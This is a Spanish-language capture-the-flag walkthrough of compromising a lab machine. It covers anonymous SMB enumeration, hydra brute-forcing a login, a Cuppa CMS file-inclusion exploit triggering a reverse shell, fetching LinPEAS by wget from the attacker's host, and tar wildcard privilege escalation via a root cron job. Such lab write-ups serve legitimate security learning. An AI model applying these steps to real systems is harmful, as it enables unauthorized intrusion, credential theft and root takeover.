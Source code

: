 - Empezamos enumerando los puertos con ==nmap==, teniendo los puertos 139, 80, 445, 143, 110 y 22, siendo el 445 de importancia ya que es un puerto donde se ejecuta ==samba==.
- Ahora usamos ==gobuster== para encontrar algún directorio.
- Podemos ver que se ejecuta ambien ==smbd== así que vamos a usar ==smbclient==
```
smbclient -L (IP_VICTIMA)
```
![[Pasted image 20250125193854.png]]
- Vamos a ver el directorio ==anonymous==. Para eso utilizamos el siguiente comando:
```
smbclient //(IP_VICTIMA)/(NOMBRE_DIRECTORIO)
```
![[Pasted image 20250125194134.png]]
- Estamos dentro a ese recurso.
- Para listar usamos el comando `dir`
![[Pasted image 20250125194220.png]]
- Ahora sabemos que tenemos a nuestra disposición esta información por el recurso ==anonymous==.
- Ahora, vamos a descargar todos los archivos de ese recurso con el siguiente comando:
```
smbget -R smb://(IP_VICTIMA)/(RECURSO)
```
- Si no resulta este comando usamos solo el comando `get.
![[Pasted image 20250125200725.png]]
- Descargamos un archivo con contraseñas.
- Gobuster nos arrojo una pagina de correos.
![[Pasted image 20250125201111.png]]
- Ya que tenemos la contraseña y un posible usuario, vamos a usar burpsuite para entrar.
![[Pasted image 20250125201400.png]]
- Ahora nos vamos al terminal y usamos ==hydra==.
![[Pasted image 20250125202020.png]]
- La primera parte después del " es la URL que cambia cuando nos equivocamos con la contraseña.
![[Pasted image 20250125202133.png]]
- Ya tenemos credenciales.
- Ya dentro y con esta password
![[Pasted image 20250125202457.png]]
- Podemos entrar al smb.
```
smbclient -U (NOMBRE_USUARIO) //(IP_VICTIMA)/(RECURSO)
```
![[Pasted image 20250125202808.png]]
- Buscando encontramos este directorio
![[Pasted image 20250125203333.png]]
- Así que vamos a enumerar rutas bajo esta ruta.
- Usamos ==gobuster==
```
gobuster dir -u http://10.10.33.74/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -r
```
- Tenemos otro directorio.
![[Pasted image 20250125203712.png]]
![[Pasted image 20250125203738.png]]
- Tenemos 2 posibles credenciales.
- En este caso ninguna de las que ya tenemos funciona.
- Vamos a buscar un sploit que nos funciona.
- Vamos a la pagina exploit-db.com
- Buscamos por Cuppa.
![[Pasted image 20250125204037.png]]
-  El exploit nos muestra 2 formas posibles de explotarlo
![[Pasted image 20250125204517.png]]
- Siendo el primero que nos permite ejecutar programas de la maquina atacante desde la maquina victima y el segundo si ponemos /alerts hacia adelante en la URL nos permite visualizar el archivo passwd donde podremos sacar algunas credenciales.
- En este caso vamos a seleccionar la primera.
- Vamos a hacer un one liner (reverse) con nano.
- Ya creado, con python levantamos un servidor web.
```
python3 -m http.server 80
```
- Ya creado, copiamos la primera ruta y la pegamos en el URL
![[Pasted image 20250125205826.png]]
- Ya estamos dentro.
![[Pasted image 20250125210457.png]]
- Vamos a usar la herramenta ==LinPEAS== vamos a buscar vulnerabilidades en la maquina.
- Como vemos que la maquina victima es x64 tenemos que descargarnos la herramienta para esa maquina.
![[Pasted image 20250125210904.png]]
- Ahora tenemos que subir el ejecutable con python.
- Para pasarlo, desde la maquina victima usamos el siguiente comando:
```
wget http://(IP_ATACANTE):(PUERTO)/(NOMBRE_ARCHIVO)
```
==Se recomienda descargarlo en el fichero /tmp ya que es menos conflictivo al momento de pasarse archivos.==
![[Pasted image 20250125211518.png]]
- Le damos permiso de ejecución.
- Ejecutamos
```
./lin
```
![[Pasted image 20250125212258.png]]
- Vamos a utilizar esto que nos dice que cada 1 minutos se ejecuta backup.sh en usuario root.
- Hay que acceder a esa ruta.
![[Pasted image 20250125212418.png]]
![[Pasted image 20250125212455.png]]
- Ya que podemos ver el ejecutable vamos a usar `cat` para leer el ejecutable.
![[Pasted image 20250125212616.png]]
- Como podemos ver:
	- Nos crea un /bin/bash.
	- Se mueve a la carpeta /html
	- Usa `tar` que sirve para extraer los archivos acompañado de `cf` que agrupa varios archivos en un archivo comprimido que en este caso seria backup.tgz
- Ahora es la escala de privilegios.
- Para explicar esto nos meteremos a esta pagina: https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
- Vamos a ocupar este metodo.
![[Pasted image 20250125213519.png]]
- La segunda línea y tercera.
- Estos archivos lo tenemos que crear en /var/www/html
![[Pasted image 20250125213737.png]]
![[Pasted image 20250125213838.png]]
- Ahora nos creamos un archivo shell.sh con nano.
- Agregamos este comando.
![[Pasted image 20250125214718.png]]
![[Pasted image 20250125215417.png]]
